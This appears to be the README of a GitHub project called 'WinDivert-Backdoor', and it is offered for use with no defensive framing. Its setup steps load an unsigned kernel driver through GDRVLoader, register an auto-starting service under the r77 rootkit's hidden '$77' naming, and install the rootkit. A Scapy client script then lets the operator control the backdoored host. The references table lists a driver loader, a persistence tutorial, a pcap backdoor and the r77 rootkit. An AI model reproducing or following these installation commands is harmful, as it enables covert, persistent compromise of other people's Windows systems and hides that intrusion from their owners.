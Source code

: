 # WinDivert-Backdoor
## Usage
### Compatibility
This project is compatible with Win7, Win8, Win10, WS2012, and WS2016
### Server
1. Install driver with GDRVLoader.exe </br>
`GDRVLoader.exe C:\$77folder\$77kernel.sys` 
3. Install service </br>
`sc create $77service binPath= "C:\$77folder\$77service.exe" start= auto`
5. Start service </br>
`sc start $77service`
6. Install rootkit </br>
`Install.exe`
### Client
1. [Install Scapy](https://scapy.readthedocs.io/en/latest/installation.html)
2. Download client.py script
3. Flourish

## References
| Link to Project                                                     | License                                                                                              |
|---------------------------------------------------------------------|------------------------------------------------------------------------------------------------------|
| https://github.com/zer0condition/GDRVLoader                         | None                                                                                                 |
| https://github.com/basil00/Divert                                   | GNU Lesser General Public License Version 3 or the GNU General Public License Version 2 |
| https://github.com/cocomelonc/2022-05-09-malware-pers-4/tree/master | None                                                                                                 |
| https://github.com/r-a303931/pcap-backdoor                          | GNU Affero General Public License v3.0                                                               |
| https://github.com/bytecode77/r77-rootkit                           | BSD 2-Clause "Simplified" License                                                                    |
